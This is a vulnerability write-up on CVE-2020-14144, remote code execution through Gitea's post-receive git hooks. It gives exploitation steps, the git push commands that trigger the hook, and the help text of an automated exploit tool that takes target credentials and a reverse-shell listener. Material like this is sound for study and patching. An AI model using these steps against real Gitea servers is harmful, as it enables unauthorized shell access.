




# GiTea - User with git hooks activated

## Requirements

A valid username and password of an account with "May create git hooks" right.


## Description

The git hook feature in Gitea 1.1.0 through 1.12.5 might allow for authenticated remote code execution in customer environments where the documentation was not understood (e.g., one viewpoint is that the dangerousness of this feature should be documented immediately above the `ENABLE_GIT_HOOKS` line in the config file). This vulnerability was found by [Niklas Goerke](https://twitter.com/Niklas974) in April 2020.

**NOTE**: The vendor has indicated this is not a vulnerability and states "_This is a functionality of the software that is limited to a very limited subset of accounts. If you give someone the privilege to execute arbitrary code on your server, they can execute arbitrary code on your server. We provide very clear warnings to users around this functionality and what it provides._"

In order to exploit this vulnerability/feature, we need to have a GiTea account with the "_May create git hooks_" rights activated.

A [github issue](https://github.com/go-gitea/gitea/pull/13058) was opened and fixed in version 1.13.0

## Exploitation

In order to successfully exploit this vulnerability/feature, the target server GiTea version should be between version 1.1.0 and version 1.13, and you need a valid account (username, password) with "_May create git hooks_" rights activated.


From a system administration point of view, the gitea process looks like this before the exploitation :



First of all, we need to create a repository on the GiTea web interface, using our account. We create the repository and we go into `Settings -> Git Hooks -> Post Receive Hook`. In this hook you can write a shell script that will be executed after receiving a new commit.



Now we will create a temporary directory on our attacking machine, and push to the remote repository. It will trigger the `Post Receive Hook` script.

```sh
touch README.md
git init
git add README.md
git commit -m "Initial commit"
git remote add origin https://vulnserver/testuser/vuln.git
git push -u origin master
```

After we pushed the commit to the remote repository, it will trigger the `Post Receive Hook` script and we will have a reverse shell!



After the exploitation, a system administrator can easily see our detached reverse shell in the child processes of GiTea:



## Exploit tool

I wrote a tool to automatically exploit this vulnerability [CVE-2020-14144-GiTea-git-hooks-rce](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce) :

```
$ ./CVE-2020-14144-GiTea-git-hooks-rce.py -h
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5
     
usage: CVE-2020-14144-GiTea-git-hooks-rce.py [-h] [-v] -t TARGET -u USERNAME -p PASSWORD [-I REV_IP] [-P REV_PORT]
                                             [-f PAYLOAD_FILE]

CVE-2020-14144 - GiTea authenticated Remote Code Execution using git hooks.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Increase verbosity.
  -t TARGET, --target TARGET
                        Target host (http://..., https://... or domain name)
  -u USERNAME, --username USERNAME
                        GiTea username
  -p PASSWORD, --password PASSWORD
                        GiTea password
  -I REV_IP, --rev-ip REV_IP
                        Reverse shell listener IP
  -P REV_PORT, --rev-port REV_PORT
                        Reverse shell listener port
  -f PAYLOAD_FILE, --payload-file PAYLOAD_FILE
                        Path to shell script payload to use.
```

## References
 - https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce
 - https://github.com/go-gitea/gitea/pull/13058